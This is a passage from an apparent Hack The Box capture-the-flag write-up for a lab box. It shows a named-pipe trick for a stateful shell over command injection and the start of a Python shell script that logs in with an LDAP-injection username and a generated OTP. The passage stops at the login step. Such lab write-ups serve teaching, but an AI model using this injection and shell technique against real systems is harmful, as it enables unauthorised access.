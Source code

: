 ### Shell as apache

#### Background

Since the box intended to not allow me to get a reverse shell as apache, I’ll think about how I would have gotten around that problem. The easiest answer is to just do the handful of commands I did as apache via the webpage cmd instance. I showed that [earlier](#exploit-it).

But never one to pass up a neat coding exercise, I decided to try to make a stateful shell from command injection, similar to what I did in [Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell). I’ll use a technique that IppSec came up with where I create a shell process on target that looks like this:

```

tail -f pipe1 | /bin/sh 2>&1 > pipe2

```

The `tail -f pipe1` holds open the shell, so anything I write to that pipe will go into `sh`, and then anything coming out will go into `pipe2`. To The `sh` session runs statefully, and I can write commands into `pipe1`, and get results from `pipe2`.

Unfortunately, when I wrote this shell, I had not yet figured out that I could write pipes in `/dev/shm`, and I thought that submitting a command to make those pipes would fail. So I settled for a state-less shell that at least makes it easy to run commands without having to look up the otp over and over. Good exercise for the reader to convert this to a stateful shell, like I had in Stratosphere.

#### Code

I’ll make use of the [python cmd module](https://docs.python.org/3/library/cmd.html) to build the shell.

```

  1 #!/usr/bin/env python3
  2 
  3 import re
  4 import requests
  5 import time
  6 from cmd import Cmd
  7 #from datetime import datetime
  8 from subprocess import Popen, PIPE
  9 
 10 class CTF_TERM(Cmd):
 11     prompt = "CTF> "
 12     
 13     def __init__(self, proxy=None):
 14     
 15         super().__init__()
 16         self.interval = 1.3
 17         self.seed = '285449490011357156531651545652335570713167411445727140604172141456711102716717000'
 18         self.s = requests.session()
 19         if proxy: self.s.proxies = proxy
 20         
 21         # Get Time From Box
 22         r = self.s.get('http://10.10.10.122/login.php')
 23         local = time.gmtime()
 24         server = time.strptime(r.headers['Date'], "%a, %d %b %Y %H:%M:%S %Z")
 25         self.offset = time.mktime(local) - time.mktime(server)
 26         
 27         # Login
 28         self.s.post('http://10.10.10.122/login.php',
 29                 data = {"inputUsername": "ldapuser%29%29%29%00",
 30                         "inputOTP": self.get_otp()})
```